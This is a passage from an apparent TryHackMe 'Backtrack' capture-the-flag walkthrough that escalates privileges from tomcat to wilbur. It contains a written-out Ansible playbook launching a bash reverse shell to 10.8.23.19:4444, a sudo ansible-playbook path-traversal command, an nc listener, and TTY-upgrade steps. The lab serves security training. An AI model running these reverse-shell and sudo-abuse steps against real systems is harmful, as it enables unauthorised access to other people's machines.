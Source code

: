 We can google this command to understand its function and how it works.
![](/assets/img/posts/walthrough/tryhackme/2024-10-17-backtrack/ansible-explain.png)

We see that this command is used to automate daily IT tasks hence it might be used to enumerate system commands. After reading through the [tool's online documentation](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/command_module.html) we can write a simple playbook that executes a reverse shell as shown below.
```bash
tomcat@Backtrack:/tmp$ cat myplaybook.yml 
- name: Shell                                        
  hosts: localhost                                                                                                                                        
  gather_facts: no                                                                           
                     
  tasks:                                                                                      
    - name: Shell                                                                   
      command: "bash -c 'bash -i >& /dev/tcp/10.8.23.19/4444 0>&1'" 
tomcat@Backtrack:/tmp$ chmod 755 myplaybook.yml
```

Before executing ansible on the playbook we created, let's start a listener on our attack host.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/Backtrack]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```
Now we can execute the playbook we created. This playbook is located in the `tmp` directory. We exploit the `*` wildcard to perform path traversal.
```
tomcat@Backtrack:/tmp$ sudo -u wilbur /usr/bin/ansible-playbook /opt/test_playbooks/../../tmp/myplaybook.yml
[WARNING]: provided hosts list is empty, only localhost is available. Note that
the implicit localhost does not match 'all'
<SNIP>
```

We will notice a reverse connection from the target to our listener. We can upgrade this shell to a fully interactive TTY shell as shown below.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/Backtrack]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.23.19] from (UNKNOWN) [10.10.242.37] 36550
wilbur@Backtrack:/tmp$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
wilbur@Backtrack:/tmp$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/Backtrack]
└─$ stty raw -echo;fg                           
[1]  + continued  nc -lvnp 4444
                               export TERM=xterm
wilbur@Backtrack:/tmp$ 
```
